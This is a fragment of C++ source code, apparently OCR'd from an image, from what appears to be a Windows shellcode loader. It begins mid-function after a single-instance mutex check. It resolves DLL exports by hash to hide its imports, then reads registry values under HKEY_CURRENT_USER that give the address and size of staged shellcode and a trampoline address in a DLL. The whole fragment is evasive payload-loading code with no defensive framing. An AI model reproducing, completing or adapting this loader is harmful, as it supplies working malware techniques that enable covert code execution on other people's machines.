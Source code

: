 ```cpp
        // Mutex exists, so we exit
        return EXIT_FAILURE;
    }

    // msvcrt.dll exports
    msvcrtdll = (HMODULE)GetModule(MSVCRTDLL_HASH);
    if (0 == (int)msvcrtdll) {
        msvcrtdll = LoadLibraryFunc((LPCWSTR)msvcrtdllName);
    }
    memsetFunc = (memsetType)GetSymbolAddress(msvcrtdll, (LPCSTR)memsetName);
    memcpyFunc = (memcpyType)GetSymbolAddress(msvcrtdll, (LPCSTR)memcpyName);
    memcmpFunc = (memcmpType)GetSymbolAddress(msvcrtdll, (LPCSTR)memcmpName);
#ifdef _DEBUG
    printfFunc = (printfType)GetSymbolAddress(msvcrtdll, (LPCSTR)printfName);
#endif

    // Advapi32.dll Loading
    advapi32dll = (HMODULE)GetModule(ADVAPI32DLL_HASH);
    if (0 == (int)advapi32dll) {
        advapi32dll = LoadLibraryFunc((LPCWSTR)advapi32dllName);
    }

    // Advapi32.dll exports
    RegOpenKeyFunc = (RegOpenKeyType)GetSymbolAddress(advapi32dll, (LPCSTR)RegOpenKeyName);
    RegGetValueFunc = (RegGetValueType)GetSymbolAddress(advapi32dll, (LPCSTR)RegGetValueName);
    RegSetValueExFunc = (RegSetValueExType)GetSymbolAddress(advapi32dll, (LPCSTR)RegSetValueName);
    RegCloseKeyFunc = (RegCloseKeyType)GetSymbolAddress(advapi32dll, (LPCSTR)RegCloseKeyName);

    result = RegOpenKeyFunc(HKEY_CURRENT_USER, (LPCWSTR)regKey, &hKey);
    if (result != ERROR_SUCCESS) {
        return EXIT_FAILURE;
    }

    // Recovering Address of Shellcode Written in the DLL
    ULONG64 shellcodeAddress = 0;
    DWORD dwSize = sizeof(shellcodeAddress);

    value = (LPCTSTR)shValue;
    if (RegGetValueFunc(hKey, NULL, value, RRF_RT_QWORD, NULL, &shellcodeAddress, &dwSize) == ERROR_SUCCESS) {
        if (0 == shellcodeAddress) {
            return EXIT_FAILURE;
        }
    }

    // Recovering Size of Shellcode Written in the DLL
    DWORD shSize;
    value = (LPCTSTR)shsValue;
    dwSize = sizeof(shSize);

    RegGetValueFunc(hKey, NULL, value, RRF_RT_DWORD, NULL, &shSize, &dwSize);

    // Recovering Address of Trampoline Written in the DLL
    ULONG64 trampolineAddress = 0;
    dwSize = sizeof(trampolineAddress);
    value = (LPCTSTR)trpValue;
    if (RegGetValueFunc(hKey, NULL, value, RRF_RT_QWORD, NULL, &trampolineAddress, &dwSize) == ERROR_SUCCESS) {
        if (0 == trampolineAddress) {
            return EXIT_FAILURE;
        }
    }

```